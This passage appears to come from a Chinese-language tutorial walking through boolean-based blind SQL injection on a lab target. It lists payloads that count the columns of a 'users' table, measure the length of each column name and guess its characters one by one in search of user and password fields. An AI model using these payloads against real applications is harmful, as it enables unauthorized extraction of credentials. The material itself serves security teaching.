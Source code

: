 ```sql
1' and (select count(column_name) from information_schema.columns where table_name='users')=1#        不成功
1' and (select count(column_name) from information_schema.columns where table_name='users')=14#        成功
```

有`14`个字段

### 6.判断每个字段的长度

第一列:

```sql
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=1#
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=7#成功
```

第一列长度为7

第二列:

```sql
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1))=1#
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1))=10#
```

第二列长度为`10`

第三列:

```sql
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 2,1),1))=1#
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 2,1),1))=9#
```

第三列长度为`9`
以此类推，
每一列列名的长度分别为

```undefined
7,10,9,4,8,6,10,12,4,19,17,2,8,8
```

### 7.判断字段名

我们可以猜测，上面长度为`4`,`8`的列应该就是我们想要的`user`，`password`列了
进行验证:

```sql
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),1,1))>97# 存在
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),1,1))<122# 存在
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),1,1))>109# 存在
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),1,1))>115# 存在
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),1,1))>117# 不存在
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),1,1))=116# 不存在
```
